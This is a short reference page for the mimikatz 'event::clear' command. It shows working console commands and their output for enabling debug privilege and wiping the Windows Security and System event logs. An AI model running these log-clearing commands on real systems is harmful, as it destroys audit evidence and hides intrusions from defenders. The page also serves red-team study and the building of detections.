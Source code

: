 # clear

`event::clear` clears a specified event log. It has the following command line argument:

* `/log`: The event log to clear. The default one is **Security**

```
mimikatz # privilege::debug
Privilege '20' OK
```

```
mimikatz # event::clear
Using "Security" event log :
- 3996 event(s)
- Cleared !
- 0 event(s)
```

```
mimikatz # event::clear /log:System
Using "System" event log :
- 818 event(s)
- Cleared !
- 0 event(s)
```
